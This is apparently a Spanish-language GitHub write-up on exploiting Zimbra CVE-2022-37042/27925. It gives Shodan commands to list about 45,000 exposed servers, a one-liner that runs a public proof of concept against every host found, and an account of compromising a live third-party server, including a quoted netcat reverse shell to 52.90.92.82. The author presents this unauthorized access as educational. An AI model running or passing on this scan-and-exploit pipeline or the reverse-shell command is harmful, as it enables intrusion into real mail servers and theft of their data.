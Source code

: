 # Explotación Activa Sobre  Zimbra CVE-2022-37042 (RCE Unauthenticated)

La siguiente investigación inicio tratando de entender las POC de varios repositorios en GitHub que compartieron muchos investigadores y termino en una sorpresa interesante, que compartiré en los siguientes parrafos. El 10 de agosto del presente año el grupo de investigación de seguridad Volexity publica en su cuenta de [twitter](https://twitter.com/Volexity/status/1557449272379031553) el descubrimiento de la explotación en masa de la suite de ZCS (Zimbra Collaboration Server) que permitir un bypass de la autenticación y que cerca de 1000 instancias de Zimbra se encontraban comprometidas a nivel mundial. 

En la investigación presentada por los colegas de [Volexity](https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/) mostraban parte de los logs consultados 

```
[attacker_ip] - - [30/Jun/2022:05:33:18 +0000] "POST [snipped]/service/extension/backup/mboximport?account-name=admin&ow=1&no-switch=true HTTP/1.0" 401 299 "[snipped]" "Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0" 7
```

 De igual manera explicaban la falla del código se debía a la función **doPost**,

![](img/imagen1.png)

El problema con este código es que se verifica la autenticación y se establece un mensaje de error, pero no hay una declaración de devolución. Esto significa que el código subsiguiente seguirá ejecutándose, independientemente del estado de autenticación del usuario. Siguiendo la función hacia abajo, un atacante solo necesita establecer los parámetros correctos en la URL para explotar la vulnerabilidad.

Una vez entendemos las posibles causas y ya habían salido algunos POCs, procedemos a realizar la explotación paso a paso, pero primero indagaremos sobre el estado utilizando la herramienta [greynoise](https://viz.greynoise.io/)

![](img/imagen2.png)

Observamos que a más de un mes de publicada el CVE-2022-27925 siguen realizando ataques

En shodan podemos observar alrededor de 45,223 instalaciones de Zimbra

![](img/imagen3.png)



### Requisitos

1. [VPS de Preferencia Ubuntu Server 20.04](https://www.vultr.com/?ref=8403796-6G)
2. Una cuenta de Shodan configurada para usar la CLI y su API
3. Tener **docker** instalado 
4. Instalar **jq** 



### POC

1. Enumeración de posibles targets

`shodan download --limit -1 zimbra.json.gz http.favicon.hash:"1624375939"`

![](img/imagen4.png)

Vamos a pasear los resultados

`shodan parse --fields ip_str,port --separator , zimbra.json.gz > zimbra.txt`

![](img/imagen5.png)

Vamos a revisar un poco los datos y darle el formato necesario para automatizar las pruebas

<img src="img/imagen6.png" style="zoom:60%;" />

Parseamos los datos para poder utilizar un online

![](img/imagen7.png)



Utilizaremos httpx en docker

![](img/imagen8.png)

Descargamos la POC de GitHub 

`git clone https://github.com/vnhacker1337/CVE-2022-27925-PoC`

![](img/imagen9.png)

Probamos el oneliner con la Poc, es importante destacar que debemos mover el archivo parseado al directorio de la poc o llamarlo por la ruta absoluta, también utilizando el dump de shodan podemos utilizarlo

```
cat zimbra.json | jq -r '.hostnames[]' | docker run -i projectdiscovery/httpx -silent | xargs -I@ sh -c 'python3 zimbra-exploit.py @ 313.zip' | egrep -v '404|401|405|200'
```

![](img/imagen10.png)

Durante esta prueba muchos targets ya aparecen parchados



Finalmente obtuvimos un resultado

![](img/imagen11.png)

![](img/imagen12.png)

2. APT, botnets  y ransomware

Una vez explotada la vulnerabilidad observamos archivos que son scripts de **APT** para realizar la exfiltración de la información y la preparación del chantaje 

![](img/imagen13.png)



archivo malicio **gift**

![](img/imagen14.png)

Archivo de respaldo y exfiltración

  <img src="img/imagen15.jpeg" style="zoom:20%;" />

Una de las rutas que encontramos contenía multiples webshells

`/opt/zimbra/jetty_base/webapps/zimbraAdmin/`

![](img/imagen16.png)

Un análisis de los procesos en ejecución demostró que se estaban instalando cronjobs para empaquetar los correos

![](img/imagen17.jpeg)

**Nota:** lo siguiente fue realizado con fines educativos y a manera de realizar una buena acción



3. Toma de la shell instaladas por los APT

Una vez identificado la descarga de netcat procedimos a tomar la sesión de los atacantes, se observa el uso de netcat **`./nc 52.90.92.82 443 -e /bin/bash`**

<img src="img/imagen18.jpeg" alt="imagen18" style="zoom:20%;" />

<img src="img/imagen19.jpeg" alt="imagen19" style="zoom:25%;" />



Una vulnerabilidad reporta públicamente hace más de 30 días sigue estando vigente al momento de redactar este articulo, cabe destacar que se notificaron a los afectados sin éxito dado que sigue activa la vulnerabilidad. 